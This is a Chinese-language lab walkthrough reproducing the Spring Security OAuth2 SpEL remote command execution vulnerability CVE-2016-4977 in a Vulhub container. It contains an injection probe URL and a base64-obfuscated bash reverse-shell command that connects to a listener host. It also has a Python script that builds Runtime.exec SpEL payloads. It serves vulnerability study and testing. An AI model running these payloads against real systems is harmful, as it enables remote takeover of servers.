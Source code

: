 # Spring Security OAuth2 远程命令执行漏洞 CVE-2016-4977

## 漏洞描述

Spring Security OAuth 是为 Spring 框架提供安全认证支持的一个模块。在其使用 whitelabel views 来处理错误时，由于使用了 Springs Expression Language (SpEL)，攻击者在被授权的情况下可以通过构造恶意参数来远程执行命令。

参考链接：

- http://secalert.net/#CVE-2016-4977
- https://deadpool.sh/2017/RCE-Springs/
- http://blog.knownsec.com/2016/10/spring-security-oauth-rce/

## 环境搭建

Vulhub 执行如下命令启动漏洞环境：

```
docker-compose up -d
```

启动完成后，访问 `http://your-ip:8080/` 即可看到 web 页面。

## 漏洞复现

访问 `http://your-ip:8080/oauth/authorize?response_type=${233*233}&client_id=acme&scope=openid&redirect_uri=http://test`。首先需要填写用户名和密码，我们这里填入 `admin:admin` 即可。

可见，我们输入是 SpEL 表达式 `${233*233}` 已经成功执行并返回结果：

![image-20220301140432346](images/202203011404402.png)

java 反弹 shell 的命令如下：

```
bash -c {echo,L2Jpbi9iYXNoIC1pID4mIC9kZXYvdGNwLzE5Mi4xNjguMTc0LjEyOC85OTk5IDA+JjE=}|{base64,-d}|{bash,-i}
```

然后，我们使用 [poc.py](https://github.com/vulhub/vulhub/blob/master/spring/CVE-2016-4977/poc.py) 来生成反弹 shell 的 POC：

```
#!/usr/bin/env python

message = input('Enter message to encode:')

poc = '${T(java.lang.Runtime).getRuntime().exec(T(java.lang.Character).toString(%s)' % ord(message[0])

for ch in message[1:]:
   poc += '.concat(T(java.lang.Character).toString(%s))' % ord(ch) 

poc += ')}'

print(poc)
```

![image-20220301141331441](images/202203011413565.png)

如上图，生成了一大串 SpEL 语句。附带上这个 SpEL 语句发送请求：

![image-20220301141502582](images/202203011415696.png)

监听 999 端口，成功接收反弹 shell（`/bin/bash` 反弹成功，`bash` 反弹失败）：

![image-20220301141258919](images/202203011412018.png)
